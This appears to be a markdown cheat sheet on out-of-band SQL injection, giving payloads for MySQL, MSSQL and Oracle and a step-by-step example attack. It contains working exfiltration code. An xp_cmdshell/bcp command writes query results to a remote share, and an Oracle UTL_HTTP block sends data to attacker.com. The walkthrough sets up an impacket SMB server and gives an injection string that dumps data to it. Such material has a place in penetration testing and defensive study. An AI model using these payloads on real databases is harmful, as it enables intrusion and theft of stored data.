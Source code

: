 # Out of Band SQL Injection
A technique used to exfiltrate data or execute actions when traditional methods are ineffective.

## MySQL & MariDB
```sql
SELECT data FROM users INTO OUTFILE '/tmp/evil.txt'
UPDATE users SET username = LOAD_FILE('/tmp/evil.txt')
```

## Microsoft SQL (MSSQL)
Write data to a file accessible over network share
```sql
EXEC xp_cmdshell 'bcp "SELECT data FROM users" queryout "\\10.10.10.10\logs\out.txt" -c -T';
```
Other techniques include `OPENROWSET` or `BULK INSERT` 

## Oracle
Send an HTTP request with sensitive data.
```sql
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

# Example Attack

`secure_file_priv`
| Value | Description |
| ----- | ----------- |
| On | Restricts file operations such as `INTO OUTFILE` |
| Off / Empty | Can write files to any location |

## 1. Enable network share on attacking machine
Using impacket run the following command to start an smb share at the `/tmp` directory:
```py
python3.9 smbserver.py -smb2support -comment "Log server" -debug logs /tmp
```

Access the share:
```sh
smbclient //10.10.10.10/logs -U guest -N
ls
```


## 2. Perform Injection
The following inject will place the value of version into a file called `out.txt` in the remote share.
```sql
1'; SELECT @@version INTO OUTFILE '\\\\10.10.10.10\\logs\\out.txt'; --
```

Files will not overwrite. Make sure to use a new output file for each attack attempt.


